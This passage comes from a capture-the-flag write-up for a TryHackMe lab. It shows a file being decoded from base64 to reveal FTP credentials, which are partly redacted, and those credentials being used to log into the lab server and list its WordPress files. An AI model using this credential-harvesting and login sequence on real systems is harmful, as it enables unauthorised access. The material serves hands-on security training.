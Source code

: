 Cracked!

**The extracted file is `user-pass-ftp.txt`!**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.30|14:35:44(HKT)]
└> cat user-pass-ftp.txt 
RlRQLUxPR0lOClVTRVI{Redacted}U1M6IDEyM2FkYW5hY3JhY2s=
```

As you can see, it's base64 encoded! (The last character is `=`, which is a padding character in base64 encoding.)

**Let's use `base64` to decode that!**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.30|14:36:28(HKT)]
└> base64 -d user-pass-ftp.txt 
FTP-LOGIN
USER: hakanftp
PASS: 123adana{Redacted}
```

We found a FTP credentials!

**Let's enumerate FTP again!**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.30|14:26:26(HKT)]
└> ftp $RHOSTS
Connected to 10.10.152.107.
220 (vsFTPd 3.0.3)
Name (10.10.152.107:siunam): hakanftp
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

We're in!

**We can then list all the files and directories:**
```shell
ftp> ls -lah
229 Entering Extended Passive Mode (|||60057|)
150 Here comes the directory listing.
drwxrwxrwx    8 1001     1001         4096 Jan 15  2021 .
drwxrwxrwx    8 1001     1001         4096 Jan 15  2021 ..
-rw-------    1 1001     1001           88 Jan 13  2021 .bash_history
drwx------    2 1001     1001         4096 Jan 11  2021 .cache
drwx------    3 1001     1001         4096 Jan 11  2021 .gnupg
-rw-r--r--    1 1001     1001          554 Jan 10  2021 .htaccess
drwxr-xr-x    2 0        0            4096 Jan 14  2021 announcements
-rw-r--r--    1 1001     1001          405 Feb 06  2020 index.php
-rw-r--r--    1 1001     1001        19915 Feb 12  2020 license.txt
-rw-r--r--    1 1001     1001         7278 Jun 26  2020 readme.html
-rw-r--r--    1 1001     1001         7101 Jul 28  2020 wp-activate.php
drwxr-xr-x    9 1001     1001         4096 Dec 08  2020 wp-admin
-rw-r--r--    1 1001     1001          351 Feb 06  2020 wp-blog-header.php
-rw-r--r--    1 1001     1001         2328 Oct 08  2020 wp-comments-post.php
-rw-r--r--    1 0        0            3194 Jan 11  2021 wp-config.php
drwxr-xr-x    4 1001     1001         4096 Dec 08  2020 wp-content
-rw-r--r--    1 1001     1001         3939 Jul 30  2020 wp-cron.php
drwxr-xr-x   25 1001     1001        12288 Dec 08  2020 wp-includes
-rw-r--r--    1 1001     1001         2496 Feb 06  2020 wp-links-opml.php
-rw-r--r--    1 1001     1001         3300 Feb 06  2020 wp-load.php
-rw-r--r--    1 1001     1001        49831 Nov 09  2020 wp-login.php
-rw-r--r--    1 1001     1001         8509 Apr 14  2020 wp-mail.php
-rw-r--r--    1 1001     1001        20975 Nov 12  2020 wp-settings.php
```